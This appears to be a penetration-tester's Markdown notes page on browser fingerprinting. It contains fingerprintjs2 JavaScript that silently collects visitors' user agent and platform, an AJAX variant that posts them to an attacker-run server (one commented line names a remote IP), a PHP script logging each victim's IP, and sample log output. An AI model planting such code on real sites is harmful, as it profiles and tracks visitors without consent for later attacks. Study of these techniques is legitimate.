 # Browser Fingerprinting
## Tool: Fingerprintjs2 JavaScript library
[link here](https://github.com/LukasDrgon/fingerprintjs2/fork)
```html
<!doctype html>
<html>
	<script src="fingerprint2.js"></script>
	<script>
		var details = "<strong>Detailed Information: </strong><br />";
		new Fingerprint2().get(function(result, components){
			var values = components.map(function (component) { return component.value })
			for (var index in components){
				var obj = components[index];
				if(obj.key.toString() == "user_agent" || obj.key.toString() == "navigator_platform"){
					var line = "<strong>" + obj.key + "</strong>" + ": " + obj.value.toString() + "<br />";
					details += line;
				}
			}
			document.write(details);
		});
	</script>
</html>
```

## parse user agent
https://developers.whatismybrowser.com/useragents/parse/#parse-useragent

## fingerprinting with AJAX: 
### Note: The POST request is issued against the same server where the malicious web page is stored, therefore the URL used in the `xmlhttp.open` method does not specify an IP address
```html
<!doctype html>
<html>
	<script src="fingerprint2.js"></script>
	<script>
		var details = "<strong>Detailed Information: </strong><br />";
		new Fingerprint2().get(function(result, components){
			var values = components.map(function (component) { return component.value })
			for (var index in components){
				var obj = components[index];
				if(obj.key.toString() == "user_agent" || obj.key.toString() == "navigator_platform"){
					var line = "<strong>" + obj.key + "</strong>" + ": " + obj.value.toString() + "<br />";
					details += line;
				}
			}
			var xmlhttp = new XMLHttpRequest();
			xmlhttp.open("POST", "/fp/js.php");
			//example with a remote url
			//xmlhttp.open("POST", "http://20.20.20.129/fp/js.php");
			xmlhttp.setRequestHeader("Content-Type", "application/txt");
			xmlhttp.send(details);
		});
	</script>
</html>
```

## js.php for receiving the ajax: note: we have to `chown www-data:www-data /var/www/html/fp` directory to allow it to write the fingerprint data to a local txt file
```php
<?php
	$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
	$data .= file_get_contents('php://input');
	$data .= "---------------------------------\n\n";
	file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);
?>
```

## sample output: `cat fingerprint.txt`
```
Client IP Address: 127.0.0.1
<strong>Detailed Information: </strong><br /><strong>user_agent</strong>: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0<br /><strong>navigator_platform</strong>: Linux x86_64<br />---------------------------------

Client IP Address: 20.20.20.132
<strong>Detailed Information: </strong><br /><strong>user_agent</strong>: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0<br /><strong>navigator_platform</strong>: Linux x86_64<br />---------------------------------
```

---